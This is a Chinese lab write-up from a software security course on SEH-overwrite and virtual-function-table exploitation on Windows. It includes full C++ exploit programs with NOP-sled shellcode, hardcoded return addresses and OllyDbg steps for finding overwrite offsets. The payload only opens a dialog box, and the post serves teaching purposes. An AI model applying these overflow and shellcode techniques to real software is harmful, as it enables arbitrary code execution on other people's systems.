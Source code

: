 ```yaml
---
title: 虚函数攻击与SEH 
date: 2019-12-12 23:12:35 
tags:
  - "网络空间安全"
  - "软件安全"
categories:
  - ["实验","软件安全"]
  - ["漏洞","SEH"]
  - ["漏洞","虚函数"]
comments: true

---
```


## 目标

了解SEH和虚函数攻击两种攻击方式，通过调试代码来理解进行上述攻击的过程。
<!-- more -->

## 测试步骤与结果

### SEH攻击

```c++ main.cpp
#include<windows.h>
#include<string>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x48\xFE\x12\x00";
void MyExceptionHandler(void)
{
	printf("got an exception,press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
}
void test(char* input)
{
	char buf[200];
	//printf("%d",strlen(shellcode));
	int zero=0;
	__asm int 3
	__try
	{
		strcpy(buf,input);
		zero=4/zero;
	}
	__except(MyExceptionHandler()){}
}
int main()
{
	LoadLibrary("user32.dll");
	test(shellcode);
	//test("abc");
	system("pause");
	return 0;
}
```

在此实验中，我们定义了一个自定义的错误处理函数`MyExceptionHandler()`，可以观察到，`__try`中试图除零，因此引发了一个异常，这个异常将由我们自定义的错误处理函数处理。如果`strcpy`
操作溢出了，并精确地将栈帧中的SEH异常处理句柄修改为`shellcode`的入口地址时，操作系统将会错误地使用shellcode去处理除0异常，代码植入成功。 {% note info %} 前面的<code>__asm int
3</code>是为了使得调试器能够以attach的方式进行调试。 {% endnote %}

1. 在ollydbg端完成实时调试配置，将它设置为实时调试器。 {% asset_img 1.png %}
2. 启动程序，在运行到int 3断点时成功进入ollydbg中。 {% note warning %} 初次进入时可能会有这个错误，设置一下udd和plugins的目录即可。 {% asset_img 2.png %} {%
   asset_img 3.png %} {% endnote %}
3. 找到`strcpy`函数，并为其设置一个断点。 {% asset_img 4.png "可以看到这是在401158处" %} {% asset_img 5.png %}
4. 此时可以观察到shellcode的起始地址为`0x12fe48`。 {% asset_img 6.png %}
5. 触发异常时，我们查看SEH链：（查看→SEH链） {% grouppicture 2-2 %} {% asset_img 7.png %} {% asset_img 8.png %} {% endgrouppicture %}
6. 上方的第一个地址指向了下一个SEH记录：`0x12ffb0`。接着是SEH异常处理程序，我们只要把`0x12ff1c`的内容改成shellcode的起始地址就可以了。
7. 第一个SEH地址是`0x12ff18`，异常处理地址是`0x12ff1c`，我们的shellcode应该填充这些差值空间，总共有212个字节（0x12ff1c-0x12ff18） {% note success no-icon %}
   回头看一眼我们要填入的shellcode，最后四字节(<code>\x48\xFE\x12\x00</code>)恰好是shellcode的起始地址！ {% endnote %}
8. 去掉系统中断（`asm int 3`）后的运行效果如下，弹出对话框正是shellcode预期的功能。 {% asset_img 9.png %}

### 虚函数攻击

{% codeblock main.cpp lang:cpp %}

# include <windows.h>

# include <iostream.h>

char shellcode1[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x5C\xE3\x42\x00";

class vf{ public:
char buf[200]; virtual void test(void)
{ cout<<"Class Vtable::test()"<<endl; } }; vf overflow, *p; void main(void)
{ LoadLibrary("user32.dll"); char * p_vtable; p_vtable=overflow.buf-4; //point to virtual table //__asm int 3 //reset
fake virtual table to 0x004088cc //the address may need to adjusted via runtime debug p_vtable[0]=0x30; p_vtable[1]
=0xE4; p_vtable[2]=0x42; p_vtable[3]=0x00; strcpy(overflow.buf,shellcode1);//set fake virtual function pointer
p=&overflow; p->test(); } {% endcodeblock %}

1. 在`strcpy`处可能会触发溢出，修改虚函数指针。`Vtable`的值需要经过一次调试才可得知。 {% asset_img 10.png %} {% asset_img 11.png %}

从这两张图可以看出，缓冲区的入口为`0x0042e35c`。虚表指针位于缓冲区前，`p_vtable`定位到了这个指针，它指向了`0x0042e358`处，进一步证明缓冲区入口正确。

2. Shellcode的末尾后四个字节地址应该是`0x0042E430`。 {% asset_img 12.png %}

3. 更换shellcode和地址后，成功弹框，shellcode成功执行。 {% asset_img 13.png %}

## 测试结论

{% grouppicture 2-2 %} {% asset_img SEH.jpg "SEH异常处理攻击图示" %} {% asset_img vf.jpg "虚函数攻击图示" %} {% endgrouppicture %}

## 思考题

{% codeblock lang:cpp %}

# include <windows.h>

# include <iostream.h>

# include <stdio.h>

class vf { public:
char buf[200]; virtual void test(void)
{ cout<<"Class Vtable::test()"<<endl; } };

class vf1 { public:
char buf[64]; virtual void test(void)
{ cout<<"Class Vtable1::test()"<<endl; } }; vf overflow, *p; vf1 overflow1, *p1; void main(int argc, char* argv[])
{ LoadLibrary("user32.dll");

	//char * p_vtable;
	//p_vtable=overflow.buf-4;//point to virtual table

//    __asm int 3 //reset fake virtual table to 0x004088cc //the address may need to adjusted via runtime debug
//p_vtable[0]=0x30; //p_vtable[1]=0xE4; //p_vtable[2]=0x42; //p_vtable[3]=0x00;

	if (argc == 3)
	{
		strcpy(overflow.buf,argv[1]);
		strcpy(overflow1.buf,argv[2]);//set fake virtual function pointer
		p=&overflow;
		p->test();

	}
	else
	{
		printf("vf argv1 argv2\n");

	}

} {% endcodeblock %}

1. 这应该是利用虚函数攻击的一个例子。其中定义了两个类：`vf`和v`f1`，`vf`具有200字节的`buf`大小，而`vf1`具有64字节的`buf`大小。我们需要提供两个参数，一个复制到`vf`的`buf`区，另一个复制到`vf1`
   的`buf`区中，要通过`vf`类的`test`方法调用shellcode。 {% asset_img 思考1.png %}
2. `argv[1]`被复制到`overflow.buf`中，起始地址为`0x42eb5c`。算出其终止地址应为`0x42ec20`。 {% asset_img 思考2.png %} {% asset_img 思考3.png "
   前面四个字节0x0042801c应该是vtable的地址，一会我们要覆盖掉它" %}

3. 第二个`strcpy`时，将第二个参数拷贝到`overflow1.buf`中，其首地址为`0x42eb14`，在`overflow`上方，我们想到应该可以利用这个关系，溢出这个64字节的`buf`，覆盖掉`vtable`
   ，让其调用shellcode {% asset_img 思考4.png %} {% asset_img 思考5.png %}

4. 构造shellcode如下，其中插入`vf`中的shellcode1写入弹框代码，插入`vf1`中的shellcode2向下覆盖掉`vf1`的`vtable`
   ，变为shellcode1的尾地址，而令shellcode1中最后四字节为shellcode第一个指令的地址（即`overflow.buf`的起始位置）。在这个构造下，可以成功执行shellcode，以弹出对话框。 {%
   grouppicture 2-2 %} {% asset_img argv[1].png "argv[1]" %} {% asset_img argv[2].png "argv[2]" %} {% endgrouppicture %}
   {% asset_img 思考8.png %}

5. 利用成功截图。 {% asset_img 思考9.png %}
